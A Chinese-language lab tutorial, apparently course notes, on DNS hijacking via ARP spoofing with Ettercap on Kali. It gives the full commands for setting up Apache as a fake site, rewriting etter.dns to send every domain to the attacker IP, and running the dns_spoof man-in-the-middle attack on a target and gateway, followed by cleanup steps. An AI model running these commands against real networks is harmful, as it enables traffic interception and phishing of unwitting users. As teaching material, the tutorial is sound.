 ### ARP-Ettercap DNS劫持

#### 什么是DNS

​		概念
​			DNS是Domain Name System的缩写, 我们称之域名系统
​			他要完成的任务是帮我们把输入的域名转换成ip地址
​		工作过程
​			先找DNS缓存
​			再找host配置
​			最终查找DNS服务器
​			

#### 什么是DNS劫持

​	概念
​		 DNS劫持又称域名劫持，是指在劫持的网络范围内拦截域名解析的请求，分析请求的域名，把审查范围以外的请求放行，否则返回假的IP地址或者什么都不做使请求失去响应，其效果就是对特定的网络不能访问或访问的是假网址。

##### 	ettercap劫持的原理

​		局域网劫持, 攻击者通过伪装成网关, 劫持受害者的网络请求, 将网络请求拦截到指定的服务器
​	DNS常用命令
​		查看DNS缓存表
​			ipconfig /displaydns
​		刷新DNS缓存
​			ipconfig /flushdns

#### ARP-DNS欺骗攻击步骤

##### 	kali开启apache服务

​		service apache2 start
​		service apache2 status

##### 	浏览器访问Apache的首页

​		http://192.168.110.12

##### 	编辑ettercap配置文件

​		进入配置文件位置
​			cd /etc/ettercap
​		复制原有的配置文件（环境恢复比较方便）
​			cp etter.dns etter.dns1
​		设置dns劫持配置文件
​			vi /etc/ettercap/etter.dns
​				添加以下内容

					*   A   192.168.110.12
					*   PTR 192.168.110.12
				参数讲解
					*:代表所有的网站 也可设置某个网站 www.mashibing.com
					A:代表钓鱼的ip地址
					PTR ：常被用于反向地址解析
				
	
	##### ettercap劫持命令讲解
	
	​	ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /被攻击者ip// /被攻击者网关// 
	​		-i：网卡
	​		 -T：文本模式
	​		 -q：安静模式
	​		 -M：执行mitm攻击
	​		-P：plugin 开始该插件
	靶机访问以下网站确认环境正常
	​	http://www.mashibing.com/
	​	http://m.ctrip.com
	​	http://www.jd.com/
	​	ping www.mashibing.com
	​	ping m.ctrip.com
	​	ping www.jd.com
	
	##### 执行劫持命令
	
	​	ettercap -i eth0 -Tq -M arp:remote -P dns_spoof /192.168.110.11// /192.168.110.1// >b.txt
	分析日志
	​	tail -f b.txt
	​	tail -f b.txt | grep "dns_spoof"
	
	##### 靶机访问以下网站查看攻击效果
	
	​	http://www.mashibing.com/
	​	http://m.ctrip.com
	​	http://www.jd.com/
	​	ping www.mashibing.com
	​	ping m.ctrip.com
	​	ping www.jd.com
	停止劫持
	​	Ctrl+C
	恢复dns劫持，刷新dns缓存即可
	​	ipconfig /flushdns
	靶机访问以下网站查看环境是否恢复正常
	​	http://www.mashibing.com/
	​	http://m.ctrip.com
	​	http://www.jd.com/
	​	ping www.mashibing.com
	​	ping m.ctrip.com
	​	ping www.jd.com
	恢复kali环境
	​	进入配置文件位置
	​		cd /etc/ettercap
	​	复制dns文件到新文件
	​		cp etter.dns etter.dns2
	​	删除配置好的攻击文件
	​		rm etter.dns
	​	还原dns配置文件
	​		cp etter.dns1 etter.dns